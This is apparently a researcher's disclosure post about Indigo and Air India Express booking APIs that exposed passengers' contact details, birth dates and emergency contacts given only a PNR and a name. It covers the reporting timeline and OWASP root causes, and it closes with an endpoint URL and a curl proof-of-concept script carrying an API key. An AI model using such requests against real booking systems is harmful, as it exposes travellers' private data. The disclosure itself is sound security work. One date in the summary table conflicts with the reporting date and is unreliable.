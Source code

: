 ```yaml
---
title: Indigo Vulnerability 2022-2024 and Air india vulnerability 2025
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


Interglobe Indigo's manage booking portal(<https://www.goindigo.in/edit-booking.html>) and Air India Express (<https://www.airindiaexpress.com/manage>)
leaked a passenger's number, email, date of birth
address and emergency contact information by a PNR and name of a passenger. Even though the content is masked in the UI,
the network activity shows the full data.

This was originally reported to Indigo in 2022 but was not fixed.

- Tweet by [@_sirius93](https://twitter.com/_sirius93_) exposing this vulnerability in 2022 <https://twitter.com/_sirius93_/status/1508423479594733568>
- Tweet by Indigo denying this and not fixing the issue <https://twitter.com/IndiGo6E/status/1508748146717130758>
- News covering this incident

      - <https://economictimes.indiatimes.com/magazines/panache/how-indigo-passenger-hacked-into-carriers-website-to-track-his-missing-luggage-airline-responds/articleshow/90567643.cms?from=mdr>
      - <https://www.bbc.com/news/world-asia-india-60937480>
      - <https://www.ndtv.com/offbeat/indigos-response-after-techie-hacks-website-to-find-lost-luggage-2853781>
      - <https://www.livemint.com/news/india/passenger-hacks-indigo-s-website-to-find-lost-bag-airline-responds-11648690601840.html>

After reporting via email to Indigo in July 2024, an incomplete fix was implemented.

After reporting to CERT in November 2024, Indigo implemented a complete fix.

Air India warns its customers to not display PNR online in its tweets and asks them to share it via DMs.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [Indigo itinerary](#1-indigo-itinerary)  | 28 March 2022, 22 July 2024, 23 November 2024 | December 2024 | 1009, 162, 39 | 64401624 |
| 2  | [Air India RetrieveData](#2-air-india-retrievedata)  | 2 August 2025 | September 2024 | 30 | 25019125 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. Indigo itinerary

```text
https://api-prod-itinerary-skyplus6e.goindigo.in/v1/itinerary
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="750-820"
---8<--- "docs/vuln/posts/content_indigo/indigo_vuln_1.json"
```
</details>

### 2. Air India RetrieveData

```bash title="sample_script.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://api.airindiaexpress.com/b2c-CheckIn/v2/mmb/retrieve/byRecordLocator' \
  -X POST \
  -H 'Ocp-Apim-Subscription-Key: fe65ec9eec2445d9802be1d6c0295158' \
  --data-raw '{"addtnlDetail":"$$$$$$$$$$","recordLocator":"$$$$$$$$$$","sessionType":"WebAnonUser"}' \
  -o bookings_$time.json
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="119-190"
---8<--- "docs/vuln/posts/content_indigo/air_india_vuln_1.json"
```
</details>
